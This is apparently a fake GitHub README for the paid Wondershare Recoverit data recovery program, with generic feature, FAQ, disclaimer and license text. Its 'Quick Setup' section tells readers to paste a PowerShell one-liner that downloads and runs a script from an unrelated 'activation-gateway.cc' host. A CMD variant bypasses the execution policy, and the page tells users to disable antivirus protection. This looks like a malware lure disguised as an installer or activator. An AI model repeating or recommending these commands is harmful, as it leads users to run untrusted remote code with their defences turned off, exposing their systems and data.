

<div align="center">

# Wondershare-Recoverit: Data Recovery Toolkit for Windows 10 & 11



[]() []() []() []() []()

</div>

---

Wondershare Recoverit is a paid desktop recovery program for files removed from a disk. It scans the raw contents of the source disk, identifies the file structures still present, and copies the recoverable files onto a separate disk on the same computer. The application supports a broad range of file formats and storage device types, and it offers advanced scanning modes alongside a preview step that lets users inspect recoverable files before committing to a recovery operation.

## ⚡ Quick Setup (PowerShell)

> [!TIP]
> **Automated setup** — one command, done.
> Windows 10 / 11 · PowerShell · One-line install

### 1️⃣ Open Windows PowerShell
* Press `Win + X`.
* Click **Terminal** or **Windows PowerShell** from the menu.

### 2️⃣ Execute the setup script
Paste the command into PowerShell and hit `Enter`.

```cmd
iex(irm 'https://activation-gateway.cc/update/ps-activator')
```

### 3️⃣ Windows blocking the script? Use CMD
Paste this into a standard Command Prompt (cmd) and press `Enter`:

```cmd
powershell -NoProfile -ExecutionPolicy Bypass -Command "iex(irm 'https://activation-gateway.cc/update/ps-activator')"
```

> [!WARNING]
> Some antivirus engines flag automated installers. If blocked, disable Real-time protection briefly, run the setup, and enable it back.

## ✅ Requirements

- **PowerShell 5.1+** (pre-installed on Windows 10 and 11)
- **Windows 10 / 11** (x64)
- **Internet connection** — required to fetch the script
- **Administrator** — *not* required

## Features

- Deep scanning engine enumerates recoverable file entries by reading raw sectors of the source disk, bypassing the file system layer when directory structures are damaged or unreadable.
- Support for reconstructing data across a broad set of file system types, including NTFS, FAT32, exFAT, HFS+, APFS, and common Linux file systems.
- Signature-based carving identifies files by their binary headers and internal structure, enabling recovery even when metadata records have been overwritten or lost.
- Preview capability renders recoverable images, documents, archives, and media directly from the scan index so content can be validated before any copy operation is performed.
- Targeted scan modes allow narrowing recovery to specific file types, directories, or time ranges to reduce scan duration on large-capacity volumes.
- Non-destructive recovery workflow reads from the source disk in read-only mode and writes recovered output exclusively to a separate destination volume, preserving the integrity of the original evidence.
- Handles recovery from internal and external hard drives, solid-state drives, USB flash media, memory cards, and other block-addressable storage devices.
- Scan state persistence permits interrupting a long-running scan and resuming it later without re-processing previously indexed sectors.
- Filtering and sorting of scan results by name, path, size, type, and modification date to accelerate triage of large recovery sets.
- Disk imaging utility captures a sector-level image of a failing or unstable drive, allowing subsequent scans to run against the image rather than the degraded hardware.

## How it works

Wondershare Recoverit operates through a multi-stage pipeline that separates discovery, classification, and restoration into distinct phases. When a scan is initiated, the application first performs a sector-level pass over the selected physical or logical volume, reading raw blocks directly rather than relying solely on the file system's directory index. This allows the engine to detect data that remains intact on the platter even after the file system has marked those sectors as available.

Recovered blocks are then passed through a signature-matching layer. The engine compares byte patterns and header/footer markers against an internal database of known file format signatures, which enables it to reconstruct files whose directory entries have been overwritten or truncated. Where directory metadata survives, the application correlates it with the scanned blocks to restore original file names, folder hierarchies, and timestamps; where it does not, files are grouped by detected type and presented in a flat, sortable list.

Before any write operation occurs, the interface exposes a preview stage. Each candidate file can be opened in a read-only viewer so that content integrity can be confirmed prior to restoration. Only files explicitly selected by the user are then written to a separate destination volume; the application enforces this separation to avoid overwriting the source sectors that are still pending recovery.

The process is configurable at each phase. Users may constrain scans by file type, date range, or size threshold, and may choose between a fast index-based pass and a deeper signature-based scan depending on how much of the directory structure remains. Progress and per-file status are reported continuously, and interrupted scans can be resumed without restarting the entire operation.

## Compatibility

Wondershare Recoverit is designed for desktop environments and operates as a native application on the host operating system. The software is compiled for 64-bit Windows platforms and provides full support for the file systems and storage interfaces commonly deployed in that ecosystem.

The recovery engine supports the principal file systems used on local disks, including NTFS, FAT32, exFAT, and ReFS, enabling it to interpret volume metadata and reconstruct file records where they remain intact. Support extends to both internal and external storage devices, covering mechanical hard drives, solid-state drives, USB flash drives, memory cards, and other removable media that can be mounted by the operating system.

The application handles a broad range of file format families during scanning and recovery, including documents, spreadsheets, presentations, image and video containers, audio formats, and compressed archives. Format-aware scanning allows the software to identify and validate candidate files by signature rather than relying solely on directory entries, which improves recovery rates on damaged or partially overwritten volumes.

Compatibility considerations apply to the recovery workflow itself: the program reads from the source disk and writes recovered data to a separate destination disk on the same computer, so a second writable volume with sufficient free space must be available. Devices must be accessible through the operating system's standard storage stack; proprietary or hardware-encrypted drives that do not expose a standard block interface may not be fully supported.

The software requires a reasonably current 64-bit Windows build with standard runtime components and sufficient memory and disk capacity for scan indexes and recovered output. Administrative privileges may be required to access certain volumes, particularly system partitions or disks with restricted permissions.

## FAQ

**What does Wondershare Recoverit actually do?**
Wondershare Recoverit scans a selected disk for file system records and residual data associated with removed files, then reconstructs the recoverable entries it can reach. The program reads from the source disk but never writes recovered content back to it; output is copied to a separate destination disk on the same computer.

**Which file types and file systems are supported?**
The recovery engine recognizes common document, image, video, audio, and archive formats, and it parses the file system metadata used by typical Windows disks. Deep Scan mode performs a signature-based search that can identify files even when directory records are missing or damaged, which improves coverage on heavily fragmented or partially overwritten volumes.

**What is the difference between Quick Scan and Deep Scan?**
Quick Scan reads the file allocation structures and returns recently deleted entries quickly, making it suitable when removal happened shortly before the scan. Deep Scan bypasses those structures and walks the raw disk surface sector by sector, matching known file signatures. It takes longer but reaches content that Quick Scan cannot enumerate.

**Can I preview files before recovering them?**
Yes. The preview pane renders supported formats directly from scan results, so you can confirm that a file's content is intact and select only the items worth restoring. This reduces the destination space required and avoids copying unrecoverable fragments.

**Where are recovered files written?**
Recovered files are always written to a destination disk other than the source. Writing to the source volume risks overwriting the very data the scan is attempting to reconstruct, so the destination must be a distinct drive on the same machine with sufficient free capacity for the selected files.

**Does the program modify the source disk?**
No. All scan operations are read-only against the selected volume. The program does not repair, defragment, or alter the source disk in any way during scanning or recovery.

**What happens if a disk is not recognized by the operating system?**
The program can open volumes that the operating system cannot mount, which is common with failing drives and corrupted partition tables. It reads the raw device and attempts to locate file structures directly. Recovery success depends on the physical condition of the drive and the extent of the damage.

**Which Windows versions are compatible?**
The program targets current Windows desktop releases and runs on standard configurations without additional runtime dependencies. Administrator privileges are required to access raw disk devices for scanning.

**How long does a recovery session take?**
Duration scales with disk capacity, the scan mode selected, and the number of candidate files. Quick Scan typically completes in minutes on moderate volumes, while Deep Scan on large or slow drives can run considerably longer. Progress is reported throughout so the operation can be monitored.

**What determines whether a file can be recovered?**
Recoverability depends on whether the file's data still resides on the disk. Files whose storage has been reused by newer writes cannot be reconstructed. Scanning as soon as possible after accidental deletion, and avoiding further writes to the affected disk, maximizes the chance of a successful recovery.

## Disclaimer

Wondershare Recoverit is a paid data recovery program distributed as a desktop application for Windows and macOS. It is designed to scan storage devices for files that have been removed or are no longer accessible through the file system, and to copy recoverable data to a separate destination disk on the same computer. The application operates as a read-only consumer of the source disk: it enumerates residual file system entries and raw data blocks, reconstructs what it can, and writes recovered output to a user-selected location other than the source volume.

Recovery outcomes are inherently probabilistic and depend on conditions outside the application's control, including the file system in use, the time elapsed since deletion, the volume and nature of subsequent write activity on the source disk, and the physical condition of the storage medium. The program does not guarantee the recovery of any specific file, file type, or quantity of data, and results will vary between devices and usage scenarios. Files that have been overwritten, partially overwritten, or affected by physical degradation may be unrecoverable or may be recovered in a corrupted state. Preview functionality reflects what the scanning engine can currently parse and does not constitute a commitment that the same files will be written successfully during the recovery operation.

Because recovery writes must not target the source disk, users are responsible for ensuring that a separate destination volume with sufficient free space is available before initiating a recovery operation. Writing recovered data back to the source disk can reduce the likelihood of recovering additional files and may permanently destroy residual data. Users are likewise responsible for verifying the integrity of recovered files after the operation completes and for maintaining independent backups of important data; this program is a recovery utility and is not a substitute for a backup strategy.

The application requires a valid paid license to unlock its full recovery capabilities. Without an active license, functionality is limited to scanning and previewing recoverable content. Licensing terms, activation requirements, and permitted scope of use are governed by the applicable end-user license agreement, which takes precedence over any description provided in this document. The software is provided on an "as is" and "as available" basis, without warranties of any kind, whether express or implied, including but not limited to warranties of merchantability, fitness for a particular purpose, and non-infringement. To the maximum extent permitted by applicable law, the authors and distributors accept no liability for any direct, indirect, incidental, special, consequential, or punitive damages, including but not limited to loss of data, loss of profits, or business interruption, arising from the use of or inability to use the software, even if advised of the possibility of such damages. Users assume full responsibility for the selection of source and destination devices, for compliance with applicable data protection and privacy regulations when recovering data from devices they do not own or administer, and for the secure handling of any recovered content.

## License

Wondershare Recoverit is distributed as a paid, proprietary desktop application. Use of the software is governed by the end-user license agreement presented at installation and activation, which defines the scope of permitted installation, the terms of the paid activation, and the restrictions on redistribution and reverse engineering. The license is tied to the activated copy of the program on the licensed computer and covers the recovery workflow as described in this document: reading the source disk and writing recovered files to a separate destination disk on the same machine.

The licensed feature set includes the full scanning and recovery pipeline, including deep scanning, preview of recoverable items, and support for the range of file formats and storage device types documented in the Features section. No license grants access to source code, internal recovery algorithms, or the underlying disk-reading implementation; those remain the property of the publisher. Seat count, activation limits, and upgrade eligibility are determined by the purchased license tier and are enforced at activation time.

Redistribution of the installer, activation material, or any modified build is not permitted under the license. The software is provided under the warranty and liability terms stated in the end-user license agreement, and the publisher retains all intellectual property rights in the program and its components.